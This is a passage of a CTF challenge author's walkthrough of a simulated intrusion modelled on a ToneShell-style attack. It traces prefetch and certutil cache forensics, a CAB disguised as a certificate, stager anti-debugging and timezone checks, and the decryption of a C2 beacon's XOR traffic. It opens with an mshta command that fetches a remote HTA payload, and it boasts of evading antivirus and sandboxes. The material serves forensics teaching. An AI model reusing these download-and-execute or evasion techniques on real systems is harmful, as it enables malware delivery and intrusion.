C:\Windows\System32\mshta.exe http://192.168.88.131/Queen/M.hta
```

#### Last Executed Application
---


However, going to the URL from the command reveals nothing at all. Also, it is clear that `M.hta` was never meant to be recovered. With that said, the only thing to go on off is the execution of `mshta.exe`. With this is worth investigating prefetch files to see what program was last executed. Windows prefetch files are created automatically by the system to help programs start more quickly. They keep track of what files and resources a program uses when it runs. These `.pf` files are stored in `C:\Windows\Prefetch` and contain details like the name of the program, how many times it has been run, the last time it was used, and which files it accessed.


Prefetch files can be analysed using a tool by Eric Zimmerman called PECmd. To use it, you can run the following command:
```plaintext
& 'C:\DFIR Tools\PECmd\PECmd.exe' -d 'musangking\C\Windows\prefetch' --csv PECmd_musangking --csvf PECmd.csv
```
This command will parse all the prefetch files within the specified directory using the `-d` switch. The `--csv` switch will output the results in a folder named *PECmd_musangking*, and the `--csvf` switch will ensure that the output file is named *PECmd.csv*.


By examining the results with Timeline Explorer and searching for `mshta.exe`, it shows that after it was executed, several other processes were triggered, including `certutil.exe`, `cmd.exe`, and `ping.exe`. These executions suggest these were the results of the `M.hta` script.

#### Certutil Cached Content
---


When building the 2nd stager, I mentioned that I changed a line from the original script found in the research. The original script uses `curl.exe` to download the 3rd stager. However, since this is a CTF, I needed the file to be recoverable. So, I used `certutil.exe` with the `-urlcache` switch instead. The `-urlcache` option in the `certutil.exe` command downloads a file from a URL and saves it in the system's cache. Even if the file is deleted later, it can still be found in the cache. The cache files for `certutil` can be found within `C:\Users\user\AppData\LocalLow\Microsoft\CryptnetUrlCache`.


Inside the Metadata folder, you can find the metadata for all the files downloaded using `certutil.exe`. To save time, the file you should focus on is `DFF9F3FC83193D7B000F4C64559EC76B`.


By using `strings`, the metadata revealed that the same IP address appeared again. However, this time, it requested a different file, `wct9039.jpg`.


If you go back one directory and enter the `Content` folder, you can find the file with the same name as the metadata, `DFF9F3FC83193D7B000F4C64559EC76B`. This is the file that was downloaded and can now be recovered.

#### CAB File Disguised as Certificate File
---


The contents of the file appear to be a certificate file.


However, based on the context from the metadata, the file could be masquerading to be a certificate file. For this reason, `certutil` can be used again to decode the file.


Using Detect It Easy (DIE), the file type can be determined. It seems to be a Microsoft Cabinet File. A Microsoft Cabinet file usually with the `.cab` extension is a compressed archive format used by Microsoft to store and distribute files, such as software, system updates, and drivers. It allows multiple files to be packaged together using lossless compression, ensuring that the original files can be fully restored when extracted. Cabinet files are commonly used for Windows installations and updates and can be opened with built-in Windows tools.


Looking back at the prefetch results, it is shown that `expand.exe` was executed. `expand.exe` is a command-line utility in Windows used to extract files from Microsoft Cabinet files. It enables users to decompress and extract individual files or the entire contents of a `.cab` archive. The extracted files can be placed in a specified location.


Using the same tool, the files within the `.cab` file were extracted.


Using DIE again, the file appears to be a 64-bit executable compiled in Visual Studio. The program is written in C or C++.

### Anti-Debugging & Sandbox Evasion (3rd Stager)
---


Here is the crazy part. I uploaded the stager to VirusTotal and only 1 out of 72 engines flagged it. How wild is that?! Not only that, I also managed to bypass dynamic analysis. If I had to pick my top achievements, this would definitely be one of them.


Looking at the `main` function, we can see the encrypted strings that were added to the stager. The function begins by creating a new thread using the `CreateThread` function, which runs the `StartAddress` function. After that, it calls the `sub_140001450` function, and if that function does not return `true`, the program will exit. If it does return `true`, the program continues to run as normal.


Looking into the `StartAddress` function, we can see that it contains an infinite loop that calls the `sub_1400010C0` and `sub_1400012B0` functions. If `sub_1400010C0` does not return `false`, the program will exit. If it returns `false`, the program proceeds to call `sub_1400012B0`. If `sub_1400012B0` returns `true`, the program exits. Otherwise, the execution pauses for 1 second and the loop repeats.



Looking into `sub_1400010C0`, the function takes a snapshot of the currently running processes on the system. It then checks these processes against a list of known debuggers. If any debugger is found in the list, the function returns `true`. If no debugger is found, it returns `false`.


Similar to the `sub_1400010C0` function, `sub_1400012B0` checks the window titles of currently running programs. It compares them against a list of known debugger window titles. If a match is found, it returns `true`. If no match is found, it returns `false`.


Within `sub_140001450`, the function uses the `GetTimeZoneInformation` API to get the current time zone settings of the system. It then checks if the time zone matches Japan's time zone and returns `true` if it does, or `false` if it does not.


Skipping to the end of the `main` function, we can see that two files are referenced, `LMIGuardianDll.dll` and `LMIGuardianSvc.exe`. Based on the decompiled code, these files are likely written to the Documents folder of the Public user.

#### Executable Patching
---


Looking at the `main` function again, we can see that the stager creates a new thread using the `CreateThread` function. This thread is set to run the `StartAddress` function, which is used to perform anti-debugging checks.


Decompiling the `StartAddress` function shows that it is a simple while loop that runs continuously. Inside this loop, the function `sub_1400010C0` is called to check if any running processes match a list of known debugger process names. Similarly, `sub_1400012B0` checks for open windows with titles that match common debugger tools.


To bypass this checker, it’s better to look at the disassembly code instead of the decompiled version. This is because patching is done at the assembly level. In the disassembly graph of the function, we can see that the `eax` register is first XORed with itself (1), which sets its value to `0`. It is then compared to the value `1`. If the value of `eax` is `0`, the thread will terminate immediately (3).

If the condition was false, the function `sub_1400010C0` would be called (2). This function checks for known debugger processes. If any are found, the program exits (4). If no debugger processes are found, the next function `sub_1400012B0` is called (5), which checks for debugger window titles. If any are found, the program exits again (6). If none are detected, the loop repeats (7), continuously checking for debugging tools.


To simplify things, we can change the comparison instruction to check against `0` instead of `1`. This way, the thread will always be terminated. This assumes that the `eax` register will always equal `1` when running the stager without a debugger, so modifying the comparison ensures that the thread will exit immediately, bypassing the anti-debugging check.


Patching the assembly instruction in IDA Pro is simple. First, switch to *Text View* and highlight the instruction `cmp eax, 1`. Then, go to the *Edit* menu, choose *Patch program*, and click on *Assemble*. In the assemble window, just change the value from `1` to `0`, and confirm the patch.



Lastly, just save the patched executable.

#### Changing Timezone
---


Since changing the timezone is easier than patching the executable, we can go with that. Just search for "timezone" in Windows and click on *Change date and time*. Then, uncheck the option that says *Set the time automatically* and set the time zone to Japan.

#### Dynamic Analysis of the Stager
---


Now that the stager does not actively check for debuggers and our virtual machine's timezone is set to Japan, executing the stager while Wireshark is running in the background shows the URLs the stager reaches out to:

- `http://gist.githubusercontent.com/zachwong02/2544b554d90e83e28bfb8e62a30e1d28/raw/d39ed5237f56ae4e1c5afc7e1232230835dd347c/VgOhPg`
- `http://gist.githubusercontent.com/zachwong02/0e9530cf15118eedad3973cfc7cbdebb/raw/6bf506bfb15e0828a2eb93281852462c543a49d6/9qi5qw`
- `http://gist.githubusercontent.com/zachwong02/57bb8484e14dd305e19c83edee145510/raw/3104c8812330c8eb4403ddb7836d6c4069e8b69e/heGRpA`
- `http://gist.githubusercontent.com/zachwong02/8443631936db428a2948729acc787cbf/raw/92dbfe01be41f7a35f046922c2f783005fd622fb/59GMBQ`


Going to the directory shown in the decompiled stager confirms that `LMIGuardianDll.dll` and `LMIGuardianSvc.exe` were successfully dropped onto the victim's machine.


### ToneShell Beacon Analysis
---


Putting `LMIGuardianDll.dll` into VirusTotal shows only 4 out of 72 detections. That’s another win for me with such a low detection rate! 

#### Obtaining the Encryption Function
---


Looking through the functions in the DLL, one stands out, `sub_180001560`. This is because it uses the `^` symbol, which indicates a XOR operation. Additionally, the function uses an incremental value that is modulus with an integer, specifically 512 bytes in this case. This means the function loops through something in chunks of 512 bytes. Since this function exists within the DLL, it can be assumed for now that this is the encryption function.

#### Obtaining the Victim ID
---


Exploring other functions within the DLL, the `sub_1800010c0` function reveals a hardcoded absolute file path. Based on the file name, it appears to be a legitimate system file. However, since this DLL is part of a malicious payload, it’s likely that the file is pretending to be legitimate to avoid detection.


Going into both of those directories, you will find a file named `Web.Facebook.config`. Inside it is a 16-byte hexadecimal string. Since this was left behind, it could be assumed to be an encryption key or a victim ID. But based on how this challenge was made, we all know exactly what it is.

#### Obtaining the C2 Server's Information
---


Within the `sub_1800016B0` function, the same IP address found earlier in the stager's metadata is visible. Additionally, a variable named `sa_data` contains a hexadecimal value. When this value is converted to decimal, it turns out to be `4444`. Since `sa_data[2]` holds the IP address, it is likely that `sa_data` represents the port used by the beacon for communication. This assumption is confirmed by the presence of a `connect` function at the end of the code, indicating an attempt to establish a connection with the given IP and port.

#### Obtaining the XOR Key


>Remember when I mentioned that vibe programming the initial blob function might come back to bite me? Well, now it’s time to reverse that exact function.

Looking back at the XOR function, let's analyse how it handles the XOR key in Ghidra. The variable `pbVar2` holds the XOR key and also keeps track of the pointer to the current character in the XOR key, as indicated by the modulus function. The value of `local_40` is then XORed with the value of `pbVar2`. This suggests that `&DAT_18004a2f8` is the location of the XOR key. Therefore, we should focus on this address, as it holds the key used for encryption and decryption.



Looking at where this XOR function was called, we can trace it back to the function `sub_180001B50`. Based on the use of `Sleep`, `recv`, and `send` functions within this function, it appears to be the core function that manages the execution of the beacon. The beacon listens for commands via the `recv` function. Once a command is received, it is decrypted using the `sub_180001560` function. After decryption, the beacon sleeps for 3 seconds before using the `send` function to send the response back. However, before sending the response, the beacon uses `sub_180001560` again to encrypt the response, ensuring that all communications are encrypted both ways.


Another important thing to note is that now that we know where the XOR key is stored, it's crucial to identify where the C2 profile's socket information is kept. By revisiting `sub_1800016B0` within Ghidra, we can observe that the socket is stored at the address `&DAT_18004a2f0`. This piece of information can be very useful because it might help us determine whether the socket is used later on in the beacon’s communication.


>Now that the easy parts have been analysed, welcome to the function that assembles the initial blob or in my own words, hell...

Analysing this with Ghidra instead of IDA Pro, since we found the addresses of the XOR key and C2 socket using Ghidra, the `sub_180001880` function shows many function calls. However, since we already know where the XOR key and C2 socket are stored, we can rename them to `XOR_KEY` and `C2_SOCKET` to make the analysis easier and more readable.

After renaming the location of the XOR key to `XOR_KEY`, we can see that several variables reference or operate on it throughout the function. To make the analysis cleaner and easier to follow, we can replace these related variables with names like `XOR_KEY_RELATED_1`, `XOR_KEY_RELATED_2`, and so on. This helps track how the key is used and how it flows through the function.

Focusing on the send function, which sends data to the C2 server via the `C2_SOCKET` variable, we can observe that two variables are passed as arguments. Tracing these back, they are assigned earlier in the function through a series of calls that modify the same variable. This suggests that the variable holds the final payload or data blob being sent to the C2. So, to reflect its purpose more clearly, we can rename that variable to `BLOB`.

Similar to how we renamed variables related to the XOR key, the `BLOB` variable is also referenced in multiple places throughout the function. To make the analysis clearer, we can rename each of those instances as `BLOB_RELATED_1`, `BLOB_RELATED_2`, and so on, depending on their order or context of use. This helps distinguish different parts of the data construction or transformation process tied to the `BLOB` being sent to the C2 server.

Now that the function is clean and easier to read, we can observe a clear pattern. Each time something is inserted into the BLOB, the BLOB variable is referenced first, followed by the value being inserted:

- **XOR key:** `FUN_180004540(BLOB, &local_80, BLOB_RELATED_1, *XOR_KEY_RELATED_2, (char *)*XOR_KEY_RELATED_1);`

- **1-byte character (Type):** `FUN_18000c330(BLOB, &TYPE_Value);`

- **Unknown:** `FUN_180004490(BLOB, &local_60, BLOB_RELATED_2, *XOR_KEY_RELATED_2, (char *)local_d0);`

- **16-byte character (First 16-bytes of the XOR key):** `FUN_180004540(BLOB, &local_38, BLOB_RELATED_3, *XOR_KEY_RELATED_2, (char *)16_CHARACTER_VAR);`


#### Network Packet Analysis
---


Knowing how the beacon behaves, we can now analyse the packet capture file. By filtering the capture for TCP traffic on port `4444`, we can locate the relevant stream. Since we know the beacon sends an initial blob, it can be assumed that the start of the communication is marked by this initial blob. This assumption is confirmed by the presence of the victim ID and an `ACK` response from the C2 server after the initial blob is transmitted. Since the victim ID was shown twice, it can also be assumed that the initial blob was sent twice. 

From the analysis, we know the XOR key is 512-bytes in size and is placed at the beginning of the initial blob. To extract it, view the TCP stream in hexadecimal format and take the first 1024 characters, which equals 512-bytes. This extracted data is the XOR key. You can then test the key by using it to decrypt the data that comes after the ACK response from the C2 server.


By using the 512-byte XOR key taken from the initial blob to decrypt the communication between the C2 server and the beacon, it confirms that we have successfully extracted the correct key. This means all traffic between the beacon and the C2 server can now be decrypted and analysed!


Decrypting one of the commands reveals a Base64 encoded string being echoed out to null.


Decoding the Base64 encoded string will give you a Japanese ransom note as well as the last half of the flag!

## Closing Thoughts
---

So another year and another CTF and once again none of Zach's challenges were solved. However,  this CTF gave me the chance to learn how to build a command and control server and a beacon. It taught me how to create different types of loaders and how to simulate a real attack. On the defensive side I learned more about reverse engineering, patching and how to get around anti-debugging and sandbox checks. But most of all I get to share how I built this challenge and how it was meant to be solved. 


As a final note, I want to congratulate the winners of the Blackberry CTF and I hope all learned something from it. For those who specialise in the Forensics category, I hope I made you suffer just as much as I taught you through this challenge (just a joke). I would like to thank Cyble and Trend Micro for providing me the resources and primary research for me to make this project. Lastly, I would also like to thank RE:HACK for organising this CTF and giving me the opportunity to make the challenges.

